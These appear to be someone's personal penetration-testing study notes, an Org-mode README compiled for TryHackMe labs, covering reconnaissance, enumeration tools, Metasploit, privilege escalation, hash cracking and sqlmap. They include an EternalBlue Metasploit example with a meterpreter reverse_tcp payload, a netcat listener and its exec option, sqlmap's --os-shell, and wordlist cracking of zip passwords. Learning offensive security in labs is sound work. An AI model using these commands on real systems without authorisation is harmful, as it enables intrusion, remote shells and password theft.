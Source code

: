 #+TITLE: Hacking - README
#+STARTUP:CONTENT

* Setup
** Guest

	#+begin_src shell
		sudo apt install spice-vdagent

		sudo systemctl enable serial-getty@ttyS0.service
		sudo systemctl start serial-getty@ttyS0.service
	#+end_src

** Host

	 #+begin_src shell
		 vish list
		 virsh console <guest>
	 #+end_src

	#+begin_src shell
		pacman -S net-tools gnu-netcat bridge-tools
	#+end_src

** TryHackMe

	 #+begin_src shell
		 mkdir tryhackme
		 sudo mount -t 9p -o trans=virtio /media/tryhackme tryhackme/
		 nmcli connection import type openvpn file tryhackme/JoltedSloth.ovpn
	 #+end_src

* Reconnaissance
** Google Dorking

	 It's legal! It's all index, publicy available information.

*** Basic Operators

		| Operator                        | Description                                |
		|---------------------------------+-------------------------------------------|
		| Single word vs. combining words | batman / batman dark knight                |
		| Using the ""                    | "dark knight" batman                       |
		| Boolean operators               | batman AND "dark knight"                   |
		| Special Characters              | batman -joker, batman | "dark knight"     |

*** Advanced Operators

		| Operator    | Action                                                                     |
		|-------------+----------------------------------------------------------------------------|
		| cache:      | Displays Google's cached version.                                          |
		| link:       | Shows a list o web pages that have links to your target.                   |
		| related:    | Smilar web pages.                                                          |
		| info:       | View information Google has on the target.                                 |
		| site:       | Limits results to just the domain listed.                                  |
		| allintitle: | Limits resulst to those *websites* with ALL the search words in the title. |
		| intitle:    | Limits results to *documents* that contain the search word in the title.   |
		| allinurl:   | Limits results to only those *webpages* with ALL search words in the URL   |
		| inurl:      | Limits results to *documents* that contain the search word in the URL.     |
		| intext:     | Limits results to *documents* that contain the search word in text.        |
		| filetype:   | Search for a file by its extension                                         |

*** The Google Hacking Database

		https://www.exploit-db.com/google-hacking-database

		The Google Hacking Database (GHDB) is a categorized index of Internet search engine queries designed to uncover interesting, and usually sensitive, information made publicly available on the Internet.

*** Other Google Hacking Tools

		- Goolink Scanner
		- Google Hack Honeypot
		- SearchDiggity
		- GooScan
		- MetaGoofil
		- SiteDigger

* Network utilities
** nmap                                                             :network:

	 #+begin_src shell
		 nmap -p- -T4 <ip>
		 nmap -sC -sV -p<ports> <ip>

		 ports=$(nmap -p- -T4 192.168.1.1 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
	 #+end_src

*** Scans

		| Switch | Description          |
		|--------+----------------------|
		| -sT    | TCP Connect Scan     |
		| -sS    | Syn "Half-open" Scan |
		| -sU    | UDP scan             |

*** Port specification

		| Switch | Description              | Example                   |
		|--------+--------------------------+---------------------------|
		| -p     | Port or range            | nmap -p 22-80 192.168.1.1 |
		| -p-    | Scan all ports           | nmap -p- 192.168.1.1      |
		| -F     | Fast port scan (top 100) | nmap -F 192.168.1.1       |

*** Service and version detection

		| Switch | Description                                                                                     | Example              |
		|--------+-------------------------------------------------------------------------------------------------+----------------------|
		| -A     | "Aggressive scan". Enables OS detection, version detection, script scanning, and traceroute.    | nmap -A 192.168.1.1  |
		| -O     | Enable OS detection.                                                                            | nmap -O 192.168.1.1  |
		| -sC    | Performs a script scan using the default set of scripts. Contains scripts considered intrusive. | nmap -sC 192.168.1.1 |
		| -sV    | Detect the version of services                                                                  | nmap -sV 192.168.1.1 |

*** Output

		| Switch  | Description             | Example             |
		|---------+-------------------------+---------------------|
		| -oN     | Normal output           |                     |
		| -oX     | XML output              |                     |
		| -oG     | Grepable output         |                     |
		| -oA     | Output to all formats   |                     |
		| -v, -vv | Verbosity               |                     |
		| -n      | Never do DNS resolution | nmap -n 192.168.1.1 |
		| --open  | Output only open port   |                     |

** Netcat                                                           :network:

	 #+begin_src shell
		 nc -lnvp 9999
	 #+end_src

	 | Switch | Description                            |
	 |--------+----------------------------------------|
	 | -l     | listen mode, for inbound connects      |
	 | -p     | local port number                      |
	 | -e     | specify filename to exec after connect |
	 | -n     | numeric only IP addresses, no DNS      |
	 | -u     | UDP mode                               |

* Enumeration
** Samba
*** smbmap                                                :samba:enumeration:

		#+begin_src shell
			smbmap -H 192.168.1.1
		#+end_src

		| Options | Description                   |
		|---------+-------------------------------|
		| -u      | Username to authenticate with |
		| -p      | Password to authenticate with |
		| -H      | IP of host                    |

*** smbclient                                             :samba:enumeration:

		ftp-like client to access SMB/CIFS resources on servers.

		#+begin_src shell
			smbclient -L \\\\192.168.1.1
		#+end_src

		| Option | Description                         |
		|--------+-------------------------------------|
		| -I     | Destination IP                      |
		| -u     | Username to authenticate with       |
		| -p     | Password to authenticate with       |
		| -N     | Suppress the normal password prompt |

*** impacket

		Impacket is a collection of Python classes for working with network protocols, with a collection of extremely useful windows scripts.

		[https://github.com/SecureAuthCorp/impacket]

		Note: impacket has scripts that use other protocols and services besides samba. (TryHackMe)

*** sublist3r

	Sublist3r is a python tool designed to enumerate subdomains of websites using OSINT.

	[https://github.com/aboul3la/Sublist3r]

** Web
*** nikto                                                   :web:enumeration:

		`nikto` is a popular web scanning tool that allows users to find common web vulnerabilities. It is commonly used to check for common CVE's such as shellshock, and to get general information about the web server that you're enumerating. (TryHackMe)
		#+end_quote


		#+begin_src shell

		#+end_src

	 | Switch    | Description                                     | Example           |
	 |-----------+-------------------------------------------------+-------------------|
	 | -h, -host | Host(s) to target                               | -host 192.168.1.1 |
	 | -id       | ID and password to use for basic authentication | -id "id:passwod"  |

*** dirsearch                                               :web:enumeration:

		#+begin_quote
		An advanced command-line tool designed to brute force directories and files in webservers, AKA web path scanner
		#+end_quote

		[https://github.com/maurosoria/dirsearch]

		#+begin_src shell
			sudo apt-get install dirsearch

			dirsearch -u http://10.10.10.28 -w /usr/share/wordlists/dirb/common.txt
		#+end_src

	 | Switch          | Description                               | Example                                                     |
	 |-----------------+-------------------------------------------+-------------------------------------------------------------|
	 | -u, --url       | Target URL                                | dirsearch -u http://192.168.1.1                             |
	 | -w, --wordlists | Customize wordlists (separated by commas) | dirsearch -u TARGET -w /usr/share/wordlists/dirb/common.txt |

*** gobuster                                                :web:enumeration:

		A web path scanner.

		#+begin_src shell
			sudo apt-get install gobuster
			gobuster dir -u http://192.168.1.1 -w /usr/share/wordlists/dirb/common.txt
		#+end_src

	 | Commands | Description                          | Example                            |
	 |----------+--------------------------------------+------------------------------------|
	 | dir      | Uses directory/file enumeration mode | gobuster dir -u http://192.168.1.1 |

	 | Flag           | Description |
	 |----------------+-------------kt|
	 | -w, --wordlist |             |

**** dir

		 | Flag | Description                     |
		 |------+---------------------------------|
		 | -x   | File extension(s) to search for |

* Exploitation
** Reverse shells

	 In Kali, there are some in `/usr/share/webshells`.

* Frameworks
** Metasploit                                                     :framework:

	 Metasploit is one of the most popular penetration testing frameworks around. It contains a large database of almost every major CVE, which you can easily use against a machine. (TryHackMe).

	 #+begin_src shell
		 sudo apt install metasploit-framework
	 #+end_src

	 *Example*

	 #+begin_src shell
		 msfconsole
		 search "eternal blue"
		 use exploit/windows/smb/ms17_010_eternalblue
		 set RHOSTS 192.168.1.1
		 set RPORT 80
		 set PAYLOAD windows/x64/meterpreter/reverse_tcp
		 exploit
	 #+end_src

	 | Command | Description                     |
	 |---------+---------------------------------|
	 | search  | Search modules                  |
	 | use     | Use module                      |
	 | info    | Display information on a module |

*** Options

 | Name    | Description        | Example                |
 |---------+--------------------+------------------------|
 | RHOSTS  | Set target host(s) | set RHOSTS 192.168.1.1 |
 | RPORT   | Set target port    | set RPORT 80           |
 | payload | Set payload        | set payload <value>    |

*** Exploit

 | Flag | Description           |
 |------+-----------------------|
 | -j   | Run in the background |

*** Sessions

 | Flag | Description                            |
 |------+----------------------------------------|
 | -i   | Interact with the supplied sessions id |

*** Meterpreter

		Meterpreter is metasploits own "control center" where you can do various things to interact with the machine. (TryHackMe)
		[https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/]

		Note: Regular shells can usually be upgraded to meterpreter shells by using the module post/multi/manage/shell_to_meterpreter.

		| Command    | Description                                                               |
		|------------+---------------------------------------------------------------------------|
		| download   | Download a file from the machine                                          |
		| upoad      | Upload a file to the machine                                              |
		| ps         | List all running processes                                                |
		| migrate    | Change processes on the victim                                            |
		| ls         | List files in the current directory on the machine                        |
		| execute    | Execute a command on the remote host                                      |
		| shell      | Start an interactie shell on the remote host                              |
		| search     | Search files on the remote                                                |
		| cat        | Output file on the remote                                                 |
		| background | Put meterpreter shell in the background (allows to run other msf modules) |

* Privilege escalation
** Linux

	 [https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/]
	 [https://github.com/rebootuser/LinEnum]
	 [https://github.com/diego-treitos/linux-smart-enumeration/blob/master/lse.sh]
	 [https://github.com/mzet-/linux-exploit-suggester]

*** GTFOBins

		#+begin_quote
		GTFOBins is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.
		#+end_quote

		[https://gtfobins.github.io/]

*** sudo

		| Switch     | Description                                        |
		|------------+----------------------------------------------------|
		| -l, --list | list user's privileges or check a specific command |

** Windows

	[https://www.fuzzysecurity.com/tutorials/16.html]
	[https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerUp]
	[https://github.com/411Hall/JAWS]
* Hash Cracking

	Note: Different hashing algorithms treat salts differently. Some prepend them and some append them. Research what it is you're trying to crack, and make the distinction. (TryHackMe)

** hashid                                                          :cracking:

	 Identify the different types of hashes used to encrypt data.

** hashcat                                                         :cracking:

	 [https://hashcat.net/wiki/doku.php?id=example_hashes]

	 | Flag | Description               |
	 |------+---------------------------|
	 | -m   | Sets the mode (hash-type) |
	 | -a   | Sets the attack mode      |

** John the Ripper                                                 :cracking:

	 Cracking zip file.

	 #+begin_src shell
		 zip2john target.zip > target.zip.hashes
		 john target.zip.hashes -w /usr/share/wordlists/rockyou.txt
	 #+end_src

	 | Flag           | Description                                        |
	 |----------------+----------------------------------------------------|
	 | -format:FORMAT | Allows to override the ciphertext format detection |
	 | -wordlist:FILE | Enable the wordlist mode, reading words from FILE. |

* SQL Injection
*** sqlmap                                                        :injection:

		[https://www.owasp.org/index.php/SQL_Injection]

		sqlmap-cheat-sheet:
		[https://gist.github.com/jkullick/03b98b1e44f03986c5d1fc69c092220d]

		| Option      | Description                                        |
		|-------------+----------------------------------------------------|
		| --batch     | Never ask for user input, use the default behavior |
		| -u          | Url to check                                       |
		| -p          | Testable parameter(s)                              |
		| -data       | Data string to be ssent through POST               |
		| --dbs       | Enumerate databases                                |
		| --tables    | Enumerate tables                                   |
		| --columns   | Enumerate columns                                  |
		| --passwords | Enumerate passwords                                |
		| -D          | Database to enumerate                              |
		| -T          | Table to enumerate                                 |
		| -C          | Column to enumerate                                |
		| --os-shell  | Prompt for an interative operating system shell    |
